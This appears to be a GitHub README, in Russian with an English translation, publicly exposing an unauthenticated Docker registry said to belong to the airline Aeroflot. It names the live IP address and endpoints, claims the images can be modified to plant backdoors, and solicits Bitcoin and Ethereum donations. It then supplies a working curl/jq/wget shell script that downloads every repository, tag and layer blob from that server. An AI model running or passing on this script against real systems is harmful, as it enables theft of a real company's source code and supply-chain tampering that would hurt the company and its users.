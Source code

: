 # Халатность авиакомпании "Аэрофлота" в защите данных.

На просторах интернета возможно найти много интересных данных, которые никак не защищаются в силу неграмотности или беспечности. Таким поведением страдают даже крупные корпорации. Одна из таких - авиакомпания "Аэрофлот". 
Компания хранит исходные коды всех своих веб-приложений в публичном доступе без какой либо аутентификации и шифрования. 

Для хранения исходников используется HTTP Docker. API докера доступно по адресу "http://89.208.149.202:5000/v2/".

Для получения списка всех репозитариев достаточно выполнить запрос "http://89.208.149.202:5000/v2/_catalog". 

Все репозитария никак не защищены и аутентификация отсутствует.

Получается годами весь исходный код всех внешних приложений авиакомпании "Аэрофлот" доступен публично и любой злоумышленник может их легко заполучить. Поэтому не удивительно, что данную корпорацию часто атакуют и что закономерно - удачно.
Через API так же возможно модифицировать файлы, что позволит внедрить свои закладки. Представляете масштаб проблемы, если этого не заметят программисты?

Возможно после этой публикации корпорация обратит внимание на свои проблемы и займется обеспечение информационной безопасности.

Так как поиск таких данных занимает много времени и ресурсов, поэтому прошу помочь в благотворительности. Полученные средства будут направлены на поиск других серьезных проблем в работе крупных корпораций из-за которых в первую очередь страдают пользователи услуг от этих самых корпораций.

Кто готов сделать пожертвонание прошу переводить средства на адрес bitcoin - `3HGaNTw5dfmGXHQuLsmTp9siKFqCLJSknk` или на адрес ethereum `0xF06c5bea2ad2041A7610533cE3145AEe9CBA7DDb`

Так же предоставлю скрипт, которым можно выгрузить все данные:

```
for catalog in `curl "http://89.208.149.202:5000/v2/_catalog" -s -k|jq '.repositories'|awk -F "\"" {'print $2'}`; do

    mkdir /path/to/dir/`echo $catalog`/

    # Get list versions
    for revision in `curl -s -k http://89.208.149.202:5000/v2/$catalog/tags/list|jq '.tags[]'|awk -F "\"" {'print $2'}`; do

	mkdir /path/to/dir/`echo $catalog`/`echo $revision`/

	#Get lists blob for download file
	for blob in `curl -s -vv -k http://89.208.149.202:5000/v2/$catalog/manifests/$revision|jq '.fsLayers[] .blobSum'|awk -F "\"" {'print $2'}|sort|uniq`; do

	    wget "http://89.208.149.202:5000/v2/$catalog/blobs/$blob" -O /path/to/dir/$catalog/$revision/`echo $blob|awk -F ":" {'print $2'}`.tar.gz

	done
    
    done

done
```

# Negligence of the airline "Aeroflot" in the protection of data.

On the Internet, it is possible to find many interesting data that are not protected in any way due to illiteracy or carelessness. Even large corporations suffer from this behavior. One of these is the Aeroflot airline. The company stores the source codes of all its web applications in public access without any authentication or encryption. H

TTP Docker is used to store the sources. The docker is available at "http://89.208.149.202:5000/v2/".

To get a list of all the repositories, it is enough to execute the query "http://89.208.149.202:5000/v2/_catalog". 

All repositories are not protected in any way and there is no authentication.

It turns out for years that the source code of all Aeroflot external applications is publicly available and any attacker can easily get them. Therefore, it is not surprising that this corporation is often attacked and that it is natural - successfully.
Through the API, it is also possible to modify the files, which will allow you to implement your bookmarks. Can you imagine the scale of the problem if programmers do not notice it?

Perhaps after this publication, the corporation will pay attention to its problems and will take care of ensuring information security.

Since the search for such data takes a lot of time and resources, so I ask you to help in charity. The funds received will be directed to the search for other serious problems in the work of huge corporations because of which the users of services from these same corporations primarily suffer.

Who is ready to make a donation please transfer money to the address bitcoin - `3HGaNTw5dfmGXHQuLsmTp9siKFqCLJSknk` or to the address ethereum `0xF06c5bea2ad2041A7610533cE3145AEe9CBA7DDb`

I will also provide a script that can unload all the data:

```
for catalog in `curl "http://89.208.149.202:5000/v2/_catalog" -s -k|jq '.repositories'|awk -F "\"" {'print $2'}`; do

    mkdir /path/to/dir/`echo $catalog`/

    # Get list versions
    for revision in `curl -s -k http://89.208.149.202:5000/v2/$catalog/tags/list|jq '.tags[]'|awk -F "\"" {'print $2'}`; do

	mkdir /path/to/dir/`echo $catalog`/`echo $revision`/

	#Get lists blob for download file
	for blob in `curl -s -vv -k http://89.208.149.202:5000/v2/$catalog/manifests/$revision|jq '.fsLayers[] .blobSum'|awk -F "\"" {'print $2'}|sort|uniq`; do

	    wget "http://89.208.149.202:5000/v2/$catalog/blobs/$blob" -O /path/to/dir/$catalog/$revision/`echo $blob|awk -F ":" {'print $2'}`.tar.gz

	done
    
    done

done
```
